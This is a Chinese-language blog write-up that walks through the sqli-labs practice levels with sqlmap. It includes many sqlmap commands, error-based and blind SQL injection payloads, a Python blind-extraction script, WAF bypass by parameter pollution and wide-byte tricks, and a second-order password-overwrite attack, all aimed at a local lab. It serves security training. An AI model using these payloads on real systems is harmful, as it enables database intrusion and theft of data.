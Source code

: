 # sqlmap使用\_sqlmap于sql labs下使用


本文主要是写[sqlmap](https://so.csdn.net/so/search?q=sqlmap&spm=1001.2101.3001.7020)在sql labs下的使用学习记录，目的在于模拟黑盒测试，不太在意原理。（当然，原理还是要学习好才这么干的。）

不得不说收获还是蛮大的。首先推荐下sqlmap使用的学习视频。
## 1-9：

    python sqlmap.py -u http://127.0.0.1/sqlilabs/Less-1/?id=1 --batch

## 10：单独的sleep(5)不起效果，



```
[http://127.0.0.1/sqlilabs/Less-10/id=1%22and%20If(ascii(substr(database(),1,1))=114,1,sleep(5))--](http://127.0.0.1/sqlilabs/Less-10/?id=1"and If(ascii(substr(database(),1,1))=114,1,sleep(5))--)+

```

python sqlmap.py -u http://127.0.0.1/sqlilabs/Less-10/?id=1 --batch --level 3

## 11-17

    python sqlmap.py -u http://192.168.2.82/sqlilabs/Less-16/ --data="uname=123&passwd=123&submit=Submit" --batch --dbs --level 2 或者3

## 18-22：账号：Dumb，密码：Dumb。sqlmap使用-r读取请求包，在需要探测的地方加\*，可以检测出来漏洞点。

18：User Agent

    python sqlmap.py -r ./target.txt --batch --level 5

![7d4761f58cbb5f9252167a58d52dd011.png](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2Fimg_convert%2F7d4761f58cbb5f9252167a58d52dd011.png)

19：Referer

![e88ff511bb45d8cfec15d41857e702fd.png](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2Fimg_convert%2Fe88ff511bb45d8cfec15d41857e702fd.png)

20：cookie处

21：cookie（需要将注入语句base64加密，源代码处有base64解密）

    python sqlmap.py -r ./target.txt --batch --level 5 --tamper="base64encode.py"

22：cookie（21注入语句前缀后缀的单引号换成双引号）

    python sqlmap.py -r ./target.txt --batch --level 5 --tamper="base64encode.py"

python sqlmap.py -u http://192.168.2.82/sqlilabs/Less-18/ -p “User-Agent” --batch --dbs --level 5 --thread 10 --technique E （此语句无效）
  ' and updatexml(1,concat(0x7e,(select user()),0x7e),1) and '1'='1
 'and extractvalue(1,concat(0x7e,(select @@version),0x7e)) and '1'='1


![9de4db221b658f62a0471e362e25121f.png](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2Fimg_convert%2F9de4db221b658f62a0471e362e25121f.png)

## 23

    python sqlmap.py -u http://192.168.2.82/sqlilabs/Less-23/index.php?id=1

## 24：一个二次注入，且漏洞功能为修改原账户密码。无法用sqlmap自动检测。

注册个账户admin’#，然后登入admin’#，然后修改密码，然后原来admin的密码就会被修改覆盖

因为\*\*修改密码（功能）\*\*处形成的 sql 语句是

    UPDATE users SET passwd="New_Pass" WHERE username ='admin'#'xxxx

## 25：

    python sqlmap.py -u http://192.168.2.82/sqlilabs/Less-25/index.php?id=1 --batch

## 26-26a-27：
提示说空格和注释

在 Windows 下会有无法用特殊字符代替空格的问题，这是 Apache 解析的问题，所以这里需要使用linux来进行搭建

window下可以使用加号（+，%2b）来代替空格，不过union两边有加号会报错，因此只能选择**布尔盲注**或者**时间盲注**。
``` python
//26-27
import requests
url="http://192.168.2.82/sqlilabs/Less-26/?id=1'%26%26(ascii(substr(database(),{},1))={})||'1'='"
result=""
for i in range(1,10):
   for j in range(33,127):
      payload = url.format(i,j)
      r = requests.get(payload)
      r.encoding=r.apparent_encoding
      if "Dumb" in r.text:
         result += chr(j)
         print (result)
         break
//26a
url="http://192.168.2.82/sqlilabs/Less-26/?id=1')%26%26(ascii(substr(database(),{},1))={})||('1'='"

//27a
url="http://192.168.2.82/sqlilabs/Less-27a/?id=1\"%26%26(ascii(substr(database(),{},1))={})||\"1\"=\""

//28-28a
url="http://192.168.2.82/sqlilabs/Less-28/?id=1')%26%26(ascii(substr(database(),{},1))={})||('1'='"


```

##  29-31:
sqlmap -u "http://192.168.1.7/sql/less-29-31/?id=1"  -batch  -dbs
这题就有点意思了，HTTP参数污染。

服务器端有两个部分：第一部分为 tomcat 为引擎的 jsp 型服务器，第二部分为 apache 为引擎的 php 服务器，真正提供 web 服务的是 php 服务器。在我们实际应用中，也是有两层服务器的情况，那为什么要这么做？是因为我们往往在 tomcat 服务器处做数据过滤和处理，功能类似为一个 waf，由于解析参数机制的不同，我们此处可以利用该原理绕过 WAF 的检测；**数据解析顺序：tomcat从前往后，apache从后往前**

**（双同参数）**

![7d0e90386b030892f67977f0534d600a.png](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2Fimg_convert%2F7d0e90386b030892f67977f0534d600a.png)

![07723967c5720bed9a8ffdf8e2897ea3.png](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2Fimg_convert%2F07723967c5720bed9a8ffdf8e2897ea3.png)

    http://127.0.0.1/sqli-labs-master/Less-29/?id=1&id=0' union select 1,database(),3--+
  http://127.0.0.1/sqli-labs-master/Less-29/?id=1&id=0' union select 1,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),3--+


30：29的单引号改为双引号

31：29的单引号改为")



## 32-33:

宽字节注入，利用mysql使用GBK编码，将两个字符看成一个汉字的特性，消除转移符号“、”，使单引号逃逸出来。**这是每次黑盒测试都需要检测的一个点。**

    python sqlmap.py -u http://192.168.2.82/sqlilabs/Less-32/?id=1 --thread 10 --tamper="unmagicquotes.py" --batch

34：

    python sqlmap.py -u http://192.168.2.82/sqlilabs/Less-34/ --data="uname=123&passwd=123&submit=Submit" --thread 10 --tamper="unmagicquotes.py" --batch

35：

    python sqlmap.py -u http://192.168.2.82/sqlilabs/Less-35/?id=1  --batch

36：

    python sqlmap.py -u http://192.168.2.82/sqlilabs/Less-36/?id=1 --thread 10 --tamper="unmagicquotes.py" --batch

37：

    python sqlmap.py -u http://192.168.2.82/sqlilabs/Less-37/ --data="uname=123&passwd=123&submit=Submit" --thread 10 --tamper="unmagicquotes.py" --batch

38-41：

    python sqlmap.py -u http://192.168.2.82/sqlilabs/Less-38/?id=1  --batch

## 42-45：

（43同理，前缀变了）

这种东西，除非白盒测试，能够看到源码，否则想不出这数据库名以及字段数。

login\_user=test&login\_password=**1’;insert+into+users+values(44,‘Less32’,‘Less42’)–+**&mysubmit=Login

login\_user=test&login\_password=**1’+or+sysdate()-now()=0+and+sleep(1)=1–+**&mysubmit=Login（我真是个小天才）我好像懂了sqlmap为什么会连接失败了，超时了。

好吧，sqlmap能够测出来，由于容易超时，因此容易在其中一步的询问中问你要不要继续（默认停止），此时你要手动点继续。因此不能够使用–batch参数。–time-sec=1

    python sqlmap.py -r target.txt --flush-session --fresh-queries --time-sec=1

## 46-53：

    python sqlmap.py -u http://192.168.2.82/sqlilabs/Less-46/?sort=1 --batch

## 总结

1.  找注入点，最万能的方法是在请求包后面加星号（\*），然后用-r读取。
2.  先测试什么都不加（只有—batch。如果很多连接失败的报错，则需要手动点击继续，不能使用—batch参数，同时设置盲注延迟时间–time-sec=1）
3.  第二步骤不行的话，level提升为4.
4.  第三步骤不行的话，使用脚本–tamper="unmagicquotes.py"进行宽字节注入。

以上步骤都不行的话，自行使用脚本进行测试。判断双写等waf拦截。或者双同参数的HTTP参数污染。-

